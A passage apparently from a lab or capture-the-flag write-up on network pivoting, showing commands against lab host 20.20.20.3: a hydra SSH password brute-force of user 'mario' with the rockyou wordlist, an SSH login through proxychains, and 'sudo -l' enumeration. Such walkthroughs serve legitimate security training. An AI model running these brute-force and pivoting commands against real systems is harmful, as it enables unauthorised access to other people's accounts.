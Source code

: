 ```bash
lsof -i:22
```

![Image](../assets/img/post/littlepivoting/image-19.png)

## Brute Force Attack | 20.20.20.3

### Mario

```bash
hydra -l mario ssh://127.0.0.1 -P /usr/share/wordlists/rockyou.txt -t 4
```

![Image](../assets/img/post/littlepivoting/image-20.png)

```bash
proxychains ssh mario@20.20.20.3
```

![Image](../assets/img/post/littlepivoting/image-21.png)

`sudo -l`

![Image](../assets/img/post/littlepivoting/image-22.png)
